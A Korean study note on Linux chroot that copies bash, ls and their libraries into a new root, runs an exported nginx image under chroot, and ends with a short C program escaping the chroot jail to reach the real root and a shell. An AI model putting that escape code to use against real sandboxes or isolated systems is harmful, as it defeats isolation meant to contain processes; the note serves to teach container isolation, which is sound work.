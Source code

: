 # chroot

- chroot 로  root-path를 새로 지정하여 마치 새로운 파일 시스템 처럼 사용할 수 있다.



### chroot (change root directory "/")

- FTP 등 시용 시 특정 디렉토리로 이동권한을 제한하기 위한 용도로 사용
- $ chroot "실행경로" "실행명령어" 
  - 실행명령어 default는 /bin/sh
  - 실행 명령어는 실행경로 내부에 실행파일이 존재해야 함
- 제한한다를 이용하여 컨테이너처럼 root를 지정해 사용해 보자.



### chroot 접근

-  bash 실행이 실패하는 이유는 새로만든 폴더 내에 아무런 실행 파일 이 없기 때문이다.

~~~sh
mkdir tmp-root
chroot tmp-root /bin/bash
chroot: failed to run command ‘/bin/bash’: No such file or directory
~~~



### bash program 실행

- 실행파일 을 복사해 넣고
- 실행시 런타임에 참조하는 의존성 라이브러리들도 복사해 넣는다.

~~~sh
mkdir tmp-root
chroot tmp-root /bin/bash
chroot: failed to run command ‘/bin/bash’: No such file or directory

chroot tmp-root /bin.bash

which bash
mkdir -p tmp-root/bin
cp /bin/bash tmp-root/bin


# ldd: 런타임에 참조하는 의존성 라이브러리 파일
ldd /bin/bash
root@seongtki:/# ldd /bin/bash
	linux-vdso.so.1 (0x00007fff7e9df000)
	libtinfo.so.5 => /lib/x86_64-linux-gnu/libtinfo.so.5 (0x00007f470948c000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4709288000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4708e97000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f47099d0000)


/# mkdir -p tmp-root/lib
/# cp /lib/x86_64-linux-gnu/libtinfo.so.5 tmp-root/lib/
/# cp /lib/x86_64-linux-gnu/libdl.so.2 tmp-root/lib/
/# cp /lib/x86_64-linux-gnu/libc.so.6 tmp-root/lib/
/# mkdir -p tmp-root/lib64
/# cp /lib64/ld-linux-x86-64.so.2 tmp-root/lib64/

/# cp /bin/bash tmp-root/bin/

# bash 접근 성공
/# chroot tmp-root /bin/bash
bash-4.4# exit
~~~



### ls program 실행

- bash와 같은 방식으로 진행한다.

~~~sh
/# which ls
/bin/ls
/# cp /bin/ls /tmp-root/bin/
/# ldd /bin/ls
	linux-vdso.so.1 (0x00007fff86f61000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f1d3d9a0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f1d3d5af000)
	libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f1d3d33e000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f1d3d13a000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f1d3ddea000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f1d3cf1b000)

/# cp /lib/x86_64-linux-gnu/libselinux.so.1 tmp-root/lib/
/# cp /lib/x86_64-linux-gnu/libc.so.6 tmp-root/lib/
/# cp /lib/x86_64-linux-gnu/libpcre.so.3 tmp-root/lib/
/# cp /lib/x86_64-linux-gnu/libdl.so.2 tmp-root/lib/
/# cp /lib64/ld-linux-x86-64.so.2 tmp-root/lib64/
/# cp /lib/x86_64-linux-gnu/libpthread.so.0 tmp-root/lib/
/# chroot tmp-root /bin/bash

# ls 실행 성공
bash-4.4# ls
bin  lib  lib64
~~~

- 새로운 파일시스템의 파일구조

~~~sh
root@seongtki:/# tree -L 2 tmp-root/
tmp-root/
├── bin
│   ├── a.out
│   ├── bash
│   └── ls
├── lib
│   ├── libc.so.6
│   ├── libdl.so.2
│   ├── libpcre.so.3
│   ├── libpthread.so.0
│   ├── libselinux.so.1
│   └── libtinfo.so.5
└── lib64
    └── ld-linux-x86-64.so.2
~~~



### 이미 만들어진 이미지로 chroot 접속

- nginx image tarball

~~~sh
cd /
mkdir /nginx-root

docker export $(docker create nginx) | tar -C /nginx-root -xvf -
chroot nginx-root /bin/sh
nginx -g "daemon off;"

curl localhost # 다른 쉘에서 접속
~~~

- 실제 컨테이너 처럼 프로그램 실행에 필요한 파일들을 모아놓고
- 해당 경로를 root로 설정한 뒤 프로세스를 실행.

~~~sh
# 해딩 image는 이미 사용할 lib, bin 파일이 모두 존재한다.
/# ll
total 84
drwxr-xr-x 16 root root  4096 Sep 20 16:43 ./
drwxr-xr-x 14 root root  4096 Sep 19 00:00 ../
drwxr-xr-x  5 root root  4096 Sep 19 00:00 apt/
drwxr-xr-x  3 root root  4096 May 25 14:11 dpkg/
drwxr-xr-x  2 root root  4096 Sep 19 00:00 init/
drwxr-xr-x  3 root root  4096 Jul 13 18:07 locale/
drwxr-xr-x  3 root root  4096 Sep 19 00:00 lsb/
drwxr-xr-x  3 root root  4096 Apr  6 14:25 mime/
drwxr-xr-x  3 root root  4096 Sep 20 16:43 nginx/
-rw-r--r--  1 root root   267 Jul 14 16:00 os-release
drwxr-xr-x  2 root root  4096 Nov 22  2022 sasl2/
drwxr-xr-x  3 root root  4096 Sep 20 16:43 ssl/
drwxr-xr-x  3 root root  4096 May 25 14:11 systemd/
drwxr-xr-x 16 root root  4096 May  7 14:33 terminfo/
drwxr-xr-x  2 root root  4096 Sep 19 00:00 tmpfiles.d/
drwxr-xr-x  3 root root  4096 Sep 19 00:00 udev/
drwxr-xr-x 10 root root 20480 Sep 20 16:43 x86_64-linux-gnu/
~~~



### root 권한 취득

- chroot 내에서는 root 디렉토리를 빠져나올 수 없다.

~~~sh
cd /
ls
cd ../../../
ls
~~~

- 프로그램을 통해 root를 빠져나올 수 있다.

~~~c
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir("escape", 0755);
    chroot("escape");
    chdir("../../");
    chroot(".");
    return execl("/bin/sh", "-i", NULL);
}
~~~

- 원래 root 디렉토리가 조회가 됨.

~~~sh
root@seongtki:/# chroot tmp-root /bin/bash
bash-4.4# a.out
# ls
a.out  cdrom	 etc	     initrd.img.old  lost+found  opt   run   srv       tmp	 var
bin    dev	 home	     lib	     media	 proc  sbin  swap.img  tmp-root  vmlinuz
boot   escape.c  initrd.img  lib64	     mnt	 root  snap  sys       usr	 vmlinuz.old
~~~





















